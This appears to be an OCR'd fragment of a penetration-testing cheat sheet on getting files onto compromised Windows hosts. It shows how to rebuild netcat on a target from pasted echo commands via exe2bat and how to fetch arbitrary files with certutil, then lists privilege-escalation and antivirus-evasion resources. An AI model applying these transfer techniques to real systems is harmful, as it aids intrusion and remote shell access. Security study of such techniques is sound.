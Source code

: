 debug.exe
First use upx or similar to compress the executable:

upx -9 nc.exe

Then use exe2bat to convert the executable into a series of echo commands that are meant to be copied pasted in the remote system:

wine exe2bat.exe nc.exe nc.txt

Then copy paste each command from nc.txt in the remote system. The commands will gradually rebuild the executable in the target machine.
certuril

certutil.exe -URL

will fetch ANY file and download it here:

C:\Users\subTee\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content

Resources
https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py
http://www.fuzzysecurity.com/tutorials/16.html
http://www.greyhathacker.net/?p=738
https://toshellandback.com/2015/11/24/ms-priv-esc/
https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/
https://www.toshellandback.com/2015/08/30/gpp/
https://www.toshellandback.com/2015/09/30/anti-virus/
https://www.veil-framework.com/framework/veil-evasion/
https://www.toshellandback.com/2015/11/24/ms-priv-esc/
https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-powersploit-part-1-evading-antivirus-software-0165535/
https://pentestlab.blog/2017/04/19/stored-credentials/
